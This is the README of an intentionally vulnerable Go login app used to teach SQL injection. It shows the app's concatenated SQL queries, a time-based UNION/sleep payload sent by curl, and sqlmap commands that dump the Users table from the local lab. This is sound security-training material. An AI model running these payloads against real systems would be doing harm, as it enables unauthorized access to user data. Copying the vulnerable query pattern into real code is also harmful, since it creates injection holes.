 # CopyNPaste API

<p align="center">
<img src="images/CopyNPaste.png"/><a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a>
</p>

CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users to register and enter into a generic system.

## Index

- [CopyNPaste API](#copynpaste-api)
  - [Index](#index)
  - [What is Injection?](#what-is-injection)
  - [Setup](#setup)
  - [Get to know the app 💉](#get-to-know-the-app-)
  - [Attack narrative](#attack-narrative)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Login as this second user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.

<img src="images/attack-0.png" align="center"/>

To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later, thus confirming we can execute commands on the server:

<img src="images/attack-3.png" align="center"/>

#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run SQL queries in the database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
